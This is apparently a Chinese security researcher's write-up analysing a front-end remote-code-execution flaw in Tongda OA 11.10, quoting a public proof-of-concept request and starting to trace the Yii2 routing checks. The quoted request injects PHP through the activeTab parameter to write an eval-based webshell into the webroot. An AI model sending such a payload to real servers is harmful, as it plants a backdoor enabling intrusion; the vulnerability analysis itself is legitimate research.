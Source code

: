 #### 2. 前台代码注入漏洞

##### 前言

在一次众测中，遇到了一个通达OA11，虽然到最后也没有成功拿下权限，但是网上查找到的一个通达OA的前台RCE的poc，让我产生了兴趣，并进行了深入的分析。poc的来源是[漏洞利用-通达OA11.10前台getshell执行命令-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2200049) 。

##### 对poc的简要分析与猜测

网上给出的POC如下：

```
GET /general/appbuilder/web/portal/gateway/getdata?activeTab=%e5',1%3d&gt;fwrite(fopen("D:\MYOA\webroot\general\test1.php","w"),"&lt;?php @eval(next(getallheaders()));"))%3b/*&amp;id=19&amp;module=Carouselimage HTTP/1.1
Host: 192.168.121.147:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=7n7nl11mo8hrkp03hvtj8sjti0; KEY_RANDOMDATA=5711
Upgrade-Insecure-Requests: 1

```

然后文章给出的返回包是这样的

<br/> 注意activeTab那一栏的对应的像乱码一样的中文，再结合poc中这个很像是宽字节注入中出现的%e5，会很让人联想到是不是这一栏带入了sql进行了数据查询，从而导致了sql注入最终由于视图渲染等原因导致了任意代码执行。但是仔细思考后也觉得不对，因为即使是宽字节的注入，这边虽然进行了逃逸，但是也未对后续内容进行闭合和也没有对数据添加单引号表示为字符串。而且在本地进行测试的时候，也发现了这一步就是在控制器中达成的代码执行和视图关系不大。

##### 源码分析

由于这个poc实在没法一眼看出来漏洞的出处，下面对源码进行分析。首先先看一下目录结构

<br/> 可以确定是MVC架构无疑了。

<br/> index.php可以发现使用的是yii2的框架。由于我们分析的是前台RCE，所以先看鉴权，即我们能访问到的路由。

```
    else {
        $url = $_SERVER["REQUEST_URI"];
        $strurl = substr($url, 0, strpos($url, "?"));

        if (strpos($strurl, "/portal/") !== false) {
            if (strpos($strurl, "/gateway/") === false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($strurl, "/gateway/saveportal") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($url, "edit") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($url, "uploadfile") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
```